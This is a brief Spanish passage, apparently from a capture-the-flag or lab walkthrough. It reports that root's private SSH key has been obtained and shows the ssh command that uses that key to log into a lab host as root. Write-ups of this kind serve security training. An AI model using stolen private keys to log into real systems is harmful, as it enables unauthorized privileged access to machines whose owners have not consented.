

Con esto obtenemos la clave privada de root el cual se utilizará para ingresar al sistema con altos privilegios

```sh
ssh root@10.129.230.220 -i id_rsa
```

